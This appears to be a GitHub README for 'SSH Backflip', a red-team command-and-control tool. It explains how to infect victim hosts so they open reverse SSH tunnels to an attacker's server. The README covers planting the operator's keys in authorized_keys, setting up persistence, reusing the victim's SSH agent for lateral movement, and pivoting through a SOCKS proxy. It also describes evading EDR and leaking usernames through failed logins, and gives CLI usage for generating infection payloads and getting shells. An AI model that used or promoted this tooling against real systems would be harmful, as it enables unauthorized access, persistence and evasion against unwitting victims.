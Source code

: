 # The SSH Backflip <br>
<br>
The SSH Backflip is a convenient mechanism for Command and Control based on SSH and offering features such as:<br>
* Living Of the Land <br>
* Accepted in more places than even mastercard <br>
* Strong traffic encryption <br>
* Key based authentication <br>
* CLI access <br>
* File transfers <br>
* SOCKS proxy <br>
* SSH agent reuse (as in, "reuse the victim's ssh agent for lateral movement") <br>


## WTF <br>
What we call an SSH Backflip is nothing more than some clever use of SSH.<br>
We start by establishing an outbound SSH connection from the victim to our C2 server. This outbound conection establishes an "ssh tunnel" configured to forward a port from the victim host back to the C2 server. To prevent the connecting victim from running commands on the C2 server we use a carefully crafted systemd configuration to sandbox the C2 instance of sshd. Additionally, the "flip" user is configured without a shell.<br> We do a port forward of TCP/22 (ssh) from the victim to TCP/400x on the C2 server. For each new victim we assign a new port, for example 4001, 4002, 4003, etc. This allows us to expose multiple victims' SSH endpoints on the C2 server side.<br>

Authentication is key-based and we allocate a unique set of keys per victim. Each set of (public-private) keys serve dual purpose: they allow us to authenticate the victim's connection to the C2 server and at the same time allow us to login on the victim system.<br>

To run commands on the victim workstation we simply start an SSH session on the C2 server connecting to the local port assigned to the desired victim.<br>

Outbound SSH connections are usually whitelisted by corporate firewalls. Also, they draw less attention than inbound SSH connections. Because we are connecting to the victim's SSH port through the tunnel, our connection into the victim will appear to come from the victim itself (127.0.0.1) and likely be ignored by HIPS and EDR.<br>


## Components

To use the SSH backflips you'll need:
* SSH server for backflips (with the right configurations).
* User to associate with and authenticate incoming backlfips connections. We like to name it "**flip**".
* Python scripts to manage backflips and generate "backflip payloads" used to infect victims.
* Payload templates for the different systems you want to backflip, we include linux (python 2 and 3), macos (bash) and windows (powershell)
* Configuration file "etc/backflips.conf" which stores parameters needed by the above mentioned Python scripts.
* SSH config file "etc/backflips_db" that serves as a database for storing backflip connections.



### etc/backflips.conf
This stores the basic configurations for generating new backflips. The default configuration looks as follows:<br>
```
[DEFAULT]
backflipServer = redteamexample.com
backflipPort = 2222
backflipUser = flip
backflipPath = /opt/backflips/
```

At a minimum you should customize the "backflipServer" with the FQDN you want to use for C2. <br>
The "backflipPath" is the base location on the server's filesystem where you have installed the SSH backflip files.

### sshbackflip.py
#### The "new" command
The sshbackflip python script is used to setup a **new** backflip, meaning: create a new set of keys, designate a port on the C2 server to map the SSH port forwarded by the victim, and output a script (one-liner when possible) that you can run on the victim host to infect them.The infection process should install the backflip (taking care of dropping ssh keys, starting the connection and setting up a persistence mechanism).<br> It supports outputing scripts for: linux (python2 and python3), macos and windows.<br>
Example usage:<br>
`python3 sshbackflip.py new -b redteamexample.com -p 4001 -u johndoe -t victimcomputer1 -o linux`<br><br>
This command will setup a new backflip and output a script to target the user "johndoe" on the host "victimcomputer1". It's up to you to convince "John" to run the script. When "johndoe" executes the script on their host it will do an SSH backlfip, connecting back to our C2 server "redteamexample.com" and port forwarding it's port 22 to our port 4001.<br>
* You can actually omit the -b and the script will use the default FQDN you defined in backflips.conf.<br>
* You can also omit -u if you don't know the victim's username ahead of time and the script will use a random word. See "the faceplant" bellow.<br>
* You can omit -p as well and let the script select the first available port in the range of 4001-4999.<br>

sshbackflip.py will save the set of keys for this backflip instance in the `keys/` directory (under the backflips base directory).<br>
Aditionally it will save a copy of the infection script in the `payloads/` directory.<br><br>
#### The "faceplant"
You need to know the username that ran the payload and got infected. The reason is that our malicious SSH keys got added to their SSH "authorized_keys" file and when we connect to their host to get a shell we will login to their account. So what happens if you didn't know the username in advance and you didn't specify it when you setup the new backflip? Don't worry, the first time the payload executes on the victim host it leak the data to us. This is achieved by making an SSH connection attempt from the victim to the C2 server with the victim's username and a random locator word. The connection will fail due to "incorrect username" and we'll see this in our C2 SSH server logs. We affectionately call this a "faceplant".<br>
You can check the logs to find faceplant like this:<br>
`sudo journalctl -S -u ssh-backflips |grep -i "<random locator word>"`<br>
Once you know the correct username of the victim you can update the User data in `etc/backflips_db`. (We should probably automate this, there's an opportunit for you to contribute some code to the project). <br><br>
#### The "connect" command
If the victim succesfuly ran the infection script and are currently connected to the C2 server, you can SSH to their computer and get a shell with the "connect" command and indicating the "target" hostname.<br>
Example usage:<br>
`python3 sshbacklfip.py connect -t vicitmcomputer`<br><br>

#### The "list" command
If you forgot the "target name" of the victim computer you can use the list command to get a listing of all the backflips contained in `etc/backflips_db`.<br>
Example usage:<br>
`python3 sshbackflip.py list`<br><br>

#### The "delete" command
If you wish to delete a victim host record from `etc/backflips_db` you can use the included "delete" command. This will not delete the keys from `etc/keys`.<br>
Example usage:<br>
`python3 sshbackflip.py delete -t victimcomputer`<br><br><br>

#### The "socks" command
Manages the SOCKS proxy over backflip, which allows you, the attacker, to proxy traffic through the victim's computer into whatever network they're connected to. <br>
The subcommand --enable enables the SOCKS proxy by making an SSH connection to the victim's computer with the -D flag. This connection is kept alive by a little service which employs autossh. The service is configured and managed as a systemd unit. <br>
The subcommand --disable stops the SOCS proxy for the backflip instance you select and removed the systemd service unit file.<br><br><br>

### Templates and stuff
The "payloads" generated by `sshbackflip.py` are based on templates (jinja2) you can find under `sshbackflip/linux` or `sshbackflip/macos` or `sshbackflip/windows` depending on the OS they target.<br>
If you want to adjust their behavior or add new go ahead and play with the templates over there.<br>
You'll notice that the **windows** subfolder includes a copy of win32-openssh for use in case the victim windows host doesn't already have OpenSSH installed. We grabbed it from here: https://github.com/PowerShell/Win32-OpenSSH/releases. If you want you can modify the template to download the latest release from github directly on the victim host.<br>


## Things to Note

* Port numbers for socks proxies will need to be managed out of band. Implement a process and use it.<br>
* You are running an additional ssh server that your victims ssh to. This can be abused by somebody who has control of the victim machine. While shell access is disabled, the service is sandboxed, and only port forwarding will work, one should be aware of this caveat.<br>
